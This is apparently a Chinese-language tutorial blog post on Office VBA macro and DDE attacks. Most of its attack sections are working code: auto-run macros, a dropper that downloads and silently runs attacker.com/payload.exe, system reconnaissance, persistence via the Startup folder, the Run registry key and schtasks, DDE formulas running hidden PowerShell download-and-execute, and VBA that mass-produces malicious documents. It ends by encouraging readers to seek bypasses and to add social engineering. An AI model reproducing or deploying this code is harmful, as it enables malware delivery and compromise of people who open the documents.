


之前我們在 excel.exe 看到了 VBA 和 DDE 的攻擊手法，  
但當時可能很快就將這兩個工具很快帶過，  
今天我們就一起來深入看看他們的語法與應用吧！

p.s. 不過也先說，以下攻擊手法都只做為研究用途，  
應該下面絕大多數都被 patch 掉了，  
大家也可以在學會語法後，研究看看有沒有 bypass 的方法

## 一基礎概念

* * *

### VBA (Visual Basic for Applications)

Microsoft Office 內建的程式語言，用在自動化操作有完整系統存取權限，所以也是常見的惡意軟體載體

### DDE (Dynamic Data Exchange)

Windows 應用程式間的通訊協定，可以在 Office 文件中執行命令，不需啟用巨集

## 二VBA 基礎語法

* * *

### 開啟 VBA 編輯器

*   Excel/Word 中按 `Alt + F11`
*   or 開發人員標籤 Visual Basic

### 先從 Hello VBA 開始吧

```vba
Sub HelloWorld()
    MsgBox "Hello, VBA!"
End Sub

```

**說明：**

*   這是最簡單的 VBA 程式
*   在 VBA 編輯器中插入模組（Insert Module）
*   貼上程式碼後按 F5 執行
*   如果看到訊息框就表示 VBA 可以正常運作

### 變數與基本語法

```vba
Sub BasicSyntax()
    ' 變數宣告
    Dim userName As String
    Dim userAge As Integer
    Dim salary As Double
    
    userName = "John"
    userAge = 30
    salary = 50000.5
    
    ' 顯示結果
    MsgBox "Name: " & userName & vbCrLf & _
           "Age: " & userAge & vbCrLf & _
           "Salary: " & salary
    
    ' 條件判斷
    If userAge >= 18 Then
        MsgBox "Adult"
    Else
        MsgBox "Not 18 yet"
    End If
    
    ' 迴圈
    Dim i As Integer
    Dim result As String
    result = ""
    For i = 1 To 5
        result = result & i & " "
    Next i
    MsgBox "Loop Result: " & result
End Sub

```

**說明：**

*   `Dim` 用來宣告變數
*   `&` 用來連接字串
*   `vbCrLf` 是換行符號
*   `_` 可以把一行程式碼分成多行
*   這個程式會顯示三個訊息框，確認各個功能都正常



### 檔案操作

```vba
Sub FileOperations()
    ' 設定檔案路徑（使用桌面以避免權限問題）
    Dim desktopPath As String
    Dim filePath As String
    
    desktopPath = CreateObject("WScript.Shell").SpecialFolders("Desktop")
    filePath = desktopPath & "\test_vba.txt"
    
    ' 寫入檔案
    Dim fileNum As Integer
    fileNum = FreeFile
    
    Open filePath For Output As #fileNum
    Print #fileNum, "testtesttest=========="
    Print #fileNum, "test2"
    Print #fileNum, "test3"
    Close #fileNum
    
    MsgBox "File Created at: " & filePath
    
    ' 讀取檔案
    Dim content As String
    Dim line As String
    content = ""
    
    fileNum = FreeFile
    Open filePath For Input As #fileNum
    Do While Not EOF(fileNum)
        Line Input #fileNum, line
        content = content & line & vbCrLf
    Loop
    Close #fileNum
    
    MsgBox "File content:" & vbCrLf & content
End Sub

```

**說明：**

*   使用桌面路徑避免權限問題
*   `FreeFile` 取得可用的檔案編號
*   `Open...For Output` 寫入模式（會覆蓋）
*   `Open...For Input` 讀取模式
*   `EOF()` 檢查是否到達檔案結尾
*   執行後會在桌面建立並讀取測試檔案



### 執行系統命令

```vba
Sub RunCommand()
    ' 使用 Shell 執行簡單命令
    Dim result As Long
    result = Shell("notepad.exe", vbNormalFocus)
    
    MsgBox "Notepad opened already, Process ID: " & result
End Sub

Sub RunCommandAdvanced()
    ' 使用 WScript.Shell 執行命令
    Dim shell As Object
    Set shell = CreateObject("WScript.Shell")
    
    ' 執行 ipconfig 並顯示視窗
    shell.Run "cmd.exe /k ipconfig", 1, False
    
    MsgBox "Run ipconfig already"
End Sub

Sub GetEnvironmentInfo()
    ' 取得系統資訊
    Dim shell As Object
    Set shell = CreateObject("WScript.Shell")
    
    Dim info As String
    info = "Computer Name: " & shell.ExpandEnvironmentStrings("%COMPUTERNAME%") & vbCrLf
    info = info & "Username: " & shell.ExpandEnvironmentStrings("%USERNAME%") & vbCrLf
    info = info & "Temp dir: " & shell.ExpandEnvironmentStrings("%TEMP%")
    
    MsgBox info
End Sub

```

**說明：**

*   `Shell` 是最簡單的方式，可以開啟程式
*   `vbNormalFocus` 表示正常顯示視窗
*   `CreateObject("WScript.Shell")` 建立 Shell 物件
*   `Run` 的參數：命令視窗狀態是否等待
*   `/k` 讓 cmd 執行命令後保持開啟

### 網路操作

```vba
Sub NetworkOperations()
    Dim http As Object
    Set http = CreateObject("MSXML2.XMLHTTP")
    
    ' 下載檔案
    http.Open "GET", "http://example.com/file.txt", False
    http.Send
    
    If http.Status = 200 Then
        Dim stream As Object
        Set stream = CreateObject("ADODB.Stream")
        stream.Type = 1  ' Binary
        stream.Open
        stream.Write http.responseBody
        stream.SaveToFile "C:\downloaded.txt", 2
        stream.Close
    End If
    
    ' POST 請求
    http.Open "POST", "http://example.com/api", False
    http.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
    http.Send "key=value"
    
    MsgBox http.responseText
End Sub

```

**說明：**

*   `MSXML2.XMLHTTP` 發送 HTTP 請求
*   `Open` 的第三個參數 False 表示同步（等待完成）
*   `Status = 200` 表示請求成功
*   `ADODB.Stream` 處理二進位資料
*   `SaveToFile` 的第二個參數：1=不覆寫，2=覆寫
*   可以用來下載 payload 或上傳竊取的資料

## 三VBA 攻擊實作

* * *

### 1\. 自動執行巨集

```vba
' Excel：在 ThisWorkbook 模組
Private Sub Workbook_Open()
    ExecutePayload
End Sub

' Word：在模組中
Sub AutoOpen()
    ExecutePayload
End Sub

Sub ExecutePayload()
    MsgBox "文件已開啟，巨集執行中"
    ' 就可以在這裡放 payload 了
End Sub

```

**說明：**

*   `Workbook_Open` 是 Excel 的開啟事件
*   `AutoOpen` 是 Word 的自動執行巨集
*   必須將 Excel 儲存為 `.xlsm` 格式（啟用巨集的活頁簿）
*   Word 儲存為 `.docm` 格式
*   使用者開啟文件並啟用巨集時就會自動執行（上面黃黃的那一條裡的按鈕）

### 2\. 下載並執行 Payload

```vba
Sub DownloadAndExecute()
    On Error Resume Next  ' 忽略錯誤
    
    Dim http As Object
    Dim stream As Object
    Dim shell As Object
    Dim url As String
    Dim savePath As String
    
    url = "http://attacker.com/payload.exe"
    savePath = Environ("TEMP") & "\update.exe"
    
    Set http = CreateObject("MSXML2.XMLHTTP")
    Set stream = CreateObject("ADODB.Stream")
    Set shell = CreateObject("WScript.Shell")
    
    ' 下載
    http.Open "GET", url, False
    http.Send
    
    If http.Status = 200 Then
        stream.Type = 1
        stream.Open
        stream.Write http.responseBody
        stream.SaveToFile savePath, 2
        stream.Close
        
        ' 執行
        shell.Run savePath, 0, False
    End If
End Sub

```

**說明：**

*   `On Error Resume Next` 讓程式碰到錯誤時繼續執行
*   `Environ("TEMP")` 取得暫存目錄，通常不會被注意
*   下載檔案後儲存到暫存目錄
*   `shell.Run` 的 0 表示隱藏視窗執行
*   False 表示不等待執行完成，立即返回
*   這是典型的 dropper 行為：下載並執行第二階段 payload

### 3\. 資訊收集

```vba
Sub CollectSystemInfo()
    On Error Resume Next
    
    Dim shell As Object
    Dim fso As Object
    Dim desktopPath As String
    Dim reportPath As String
    Dim fileNum As Integer
    
    Set shell = CreateObject("WScript.Shell")
    Set fso = CreateObject("Scripting.FileSystemObject")
    
    ' 設定報告路徑
    desktopPath = shell.SpecialFolders("Desktop")
    reportPath = desktopPath & "\system_report.txt"
    
    ' 建立報告檔案
    fileNum = FreeFile
    Open reportPath For Output As #fileNum
    
    ' 收集基本資訊
    Print #fileNum, "===== System Information Report ====="
    Print #fileNum, "Collection Time: " & Now
    Print #fileNum, ""
    Print #fileNum, "Computer Name: " & shell.ExpandEnvironmentStrings("%COMPUTERNAME%")
    Print #fileNum, "Username: " & shell.ExpandEnvironmentStrings("%USERNAME%")
    Print #fileNum, "User Domain: " & shell.ExpandEnvironmentStrings("%USERDOMAIN%")
    Print #fileNum, "Operating System: " & shell.ExpandEnvironmentStrings("%OS%")
    Print #fileNum, "Processor: " & shell.ExpandEnvironmentStrings("%PROCESSOR_IDENTIFIER%")
    Print #fileNum, "Number of Processors: " & shell.ExpandEnvironmentStrings("%NUMBER_OF_PROCESSORS%")
    Print #fileNum, "Temp Directory: " & shell.ExpandEnvironmentStrings("%TEMP%")
    Print #fileNum, ""
    
    ' Office 資訊
    Print #fileNum, "===== Office Information ====="
    Print #fileNum, "Application: " & Application.Name
    Print #fileNum, "Version: " & Application.Version
    Print #fileNum, "Document Path: " & ThisWorkbook.Path
    Print #fileNum, ""
    
    ' 磁碟資訊
    Print #fileNum, "===== Disk Information ====="
    Dim drive As Object
    For Each drive In fso.Drives
        If drive.IsReady Then
            Print #fileNum, "Drive " & drive.DriveLetter & ":"
            Print #fileNum, "  Type: " & drive.DriveType
            Print #fileNum, "  Total Size: " & Format(drive.TotalSize / 1024 / 1024 / 1024, "0.00") & " GB"
            Print #fileNum, "  Free Space: " & Format(drive.FreeSpace / 1024 / 1024 / 1024, "0.00") & " GB"
        End If
    Next drive
    
    Close #fileNum
    
    MsgBox "Report created at: " & reportPath, vbInformation
    
    ' 開啟報告檔案
    shell.Run "notepad.exe " & reportPath
End Sub

```

**說明：**

*   收集完整的系統資訊
*   使用 `Print #fileNum` 寫入檔案
*   `Now` 取得目前時間
*   `Format` 格式化數字（將位元組轉換為 GB）
*   報告會自動用記事本開啟
*   可以用來了解目標系統的環境


### 4\. 持久化機制

```vba
Sub CreatePersistence()
    Dim shell As Object
    Dim fso As Object
    
    Set shell = CreateObject("WScript.Shell")
    Set fso = CreateObject("Scripting.FileSystemObject")
    
    ' 方法一：複製到啟動資料夾
    Dim startupPath As String
    startupPath = shell.SpecialFolders("Startup")
    fso.CopyFile ThisWorkbook.FullName, startupPath & "\doc.xlsm", True
    
    ' 方法二：寫入註冊表
    On Error Resume Next
    shell.RegWrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Office", _
                   ThisWorkbook.FullName, "REG_SZ"
    
    ' 方法三：排程工作
    Dim taskCmd As String
    taskCmd = "schtasks /create /tn ""Update"" /tr """ & _
              ThisWorkbook.FullName & """ /sc daily /st 09:00 /f"
    shell.Run taskCmd, 0, True
End Sub

```

**說明：**

*   `SpecialFolders("Startup")` 取得啟動資料夾路徑
*   `ThisWorkbook.FullName` 取得目前文件的完整路徑
*   複製到啟動資料夾，每次開機會自動開啟
*   `RegWrite` 寫入註冊表的 Run 鍵，開機自動執行
*   `schtasks` 建立排程工作，定時執行
*   三種方法也都可以同時使用

## 四DDE 攻擊技術

* * *

### Excel DDE

在 Excel 儲存格中輸入以下公式：

```
=cmd|'/c powershell.exe -w hidden IEX(New-Object Net.WebClient).DownloadString("http://attacker.com/p.ps1")'!A1

```

或

```
=cmd|'\..\..\..\Windows\System32\cmd.exe /c calc.exe'!''

```

**說明：**

*   DDE 公式格式：`=應用程式|'命令'!項目`
*   `cmd|'/c ...'` 透過 cmd 執行命令
*   `-w hidden` 隱藏 PowerShell 視窗
*   `IEX` 是 Invoke-Expression，執行下載的腳本
*   `\..\..\..\` 是路徑跳脫，繞過限制
*   不需要啟用巨集就能執行
*   p.s. 新版本已經 patch 掉了，可在舊版本上測試

### Word DDE

在 Word 中：

1.  按 `Ctrl + F9` 插入欄位
2.  輸入：

```
{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell.exe -w hidden $d='http://attacker.com/p.ps1';IEX(New-Object Net.WebClient).DownloadString($d)" }

```

**說明：**

*   `{ }` 是 Word 的欄位語法
*   `DDEAUTO` 自動更新欄位（自動執行）
*   `/k` 執行命令後保持視窗開啟（但我們用 hidden 隱藏了）
*   PowerShell 下載並執行遠端腳本
*   使用者開啟文件時會提示是否更新連結，點選是就會執行

### 使用 VBA 建立 DDE 文件

```vba
Sub CreateDDEDocument()
    Dim doc As Document
    Set doc = Documents.Add
    
    ' 插入 DDE 欄位
    Dim fld As Field
    Set fld = doc.Fields.Add(Range:=Selection.Range, _
        Type:=wdFieldEmpty, _
        Text:="DDEAUTO c:\\windows\\system32\\cmd.exe ""/k calc.exe""", _
        PreserveFormatting:=True)
    
    fld.Update
    doc.SaveAs2 "C:\malicious.docx"
End Sub

```

**說明：**

*   用 VBA 自動建立包含 DDE 欄位的文件
*   `wdFieldEmpty` 表示空白欄位類型
*   `Text` 參數是 DDE 公式內容
*   可以批量製作惡意文件
*   適合用於針對性攻擊

## 五總結

* * *

### VBA 核心技術

*   **自動執行**：Workbook\_OpenAutoOpen
*   **系統操作**：WScript.Shell
*   **檔案操作**：Scripting.FileSystemObject
*   **網路功能**：MSXML2.XMLHTTP

### DDE 核心技術

*   **無需巨集**：不需要啟用巨集
*   **直接執行**：透過公式執行命令
*   **隱密性高**：不容易被發現

### 注意事項

*   Office 新版本已加強保護
*   預設會阻擋巨集執行
*   DDE 在新版中也被限制
*   記得要配合社交工程，才會有人願意點開 XD